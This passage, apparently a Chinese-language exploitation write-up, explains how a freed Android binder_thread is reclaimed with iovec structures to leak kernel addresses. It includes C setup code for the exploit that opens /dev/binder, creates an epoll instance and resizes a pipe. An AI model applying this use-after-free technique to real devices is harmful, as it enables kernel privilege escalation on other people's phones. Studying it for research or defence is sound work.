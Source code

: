 ```
iov = kmalloc(nr_segs*sizeof(struct iovec), GFP_KERNEL)
copy_from_user(iov, uvector, nr_segs*sizeof(*uvector))

```

我们可以在 free 掉 binder_thread 后喷射到上面前，

binder_thread 有 408 的大小 而 iovec 有 16 的大小，408/16 需要构造 25 个 iovec 结构在覆盖 free 掉的 binder_thread

而在取消链接时，会将 wait->list_head 的地址写入 free 后的 binder_thread, 破坏到我们的 iovec 结构，我们就是要根据破坏后填写的地址来进行读取

[外链图片转存失败, 源站可能有防盗链机制, 建议将图片保存下来直接上传 (img-KgSpMZdm-1644394151948)(first_binder_thread.png)]

m_4gb_aligned_page 为地址 0x1000000000 在执行取消链接操作之前，remove_wait_queue 尝试获取自旋锁。如果值不是 0，则线程将继续循环，并且永远不会发生取消链接操作。由于 iov_base 是一个 64 位的值，我们希望确保低 32 位是 0。

关键点在于利用 writev pipe readv 的堵塞，来读取破坏我们的 iovc 后填写的地址

```
   printf("[+] start opening /dev/binder");
    m_binder_fd = open("/dev/binder",O_RDONLY);
    if (m_binder_fd < 0) {
            printf("\t[-] Unable to get binder fd\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] m_binder_fd: 0x%x\n", m_binder_fd);
        }


    printf("[+] Creating event poll\n");
   
        m_epoll_fd = epoll_create(1);
   
       if (m_epoll_fd < 0) {
            printf("\t[-] Unable to get event poll fd\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] m_epoll_fd: 0x%x\n", m_epoll_fd);
        }


    printf("[+] setting up the pipe");
    if(pipe(pipe_fd)== -1){
        printf("[-] unable create pipe\n");
        exit(EXIT_FAILURE);
    }else{
        printf("create pipe successfully\n");
    }

    if(fcntl(pipe_fd[0],F_SETPIPE_SZ,PAGE_SIZE)== -1){
        printf("[-] Unable to change the pipe capacity\n");
        exit(EXIT_FAILURE);
    }else{
        printf("\t[*] Changed the pipe capacity to: 0x%x\n", PAGE_SIZE);
    }


```
